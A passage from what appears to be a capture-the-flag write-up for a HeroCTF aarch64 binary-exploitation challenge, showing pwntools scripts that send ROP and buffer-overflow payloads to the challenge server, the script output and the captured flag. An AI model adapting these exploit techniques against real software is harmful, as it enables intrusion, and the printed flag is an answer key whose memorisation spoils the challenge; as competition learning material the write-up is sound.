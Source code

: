 ```py
buf += p64(0xcafebabe900df00d)
buf += p64(0xfeedbabebaadf00d)

r.sendafter(b'? ', buf)
r.interactive()
```
And guess what there was another lot lot easiest way to do it by just calling `printf(flag)` (yes, I'm devastated, but that's the game):
```py
from pwn import *

r = remote("aargh.heroctf.fr", 1337)

print(r.readuntil("? "))

r.sendline(b'i' * 264 + p64(0x4006d0) + p64(0x400810) * 32)
r.interactive()
```

Result of my script's execution:
```bash
$ python3 solve.py 
[+] Opening connection to aargh.heroctf.fr on port 1337: Done
[*] ROPchain size: 1344 bytes
[+] Receiving all data: Done (93B)
[*] Closed connection to aargh.heroctf.fr port 1337
[+] Well, I guess you can have my secret: Hero{ret2csu_1s_th3_w4y_f0r_th1s_f4ncy_aarch64_ROP!!!}
```

### Flag

```
Hero{ret2csu_1s_th3_w4y_f0r_th1s_f4ncy_aarch64_ROP!!!}
```
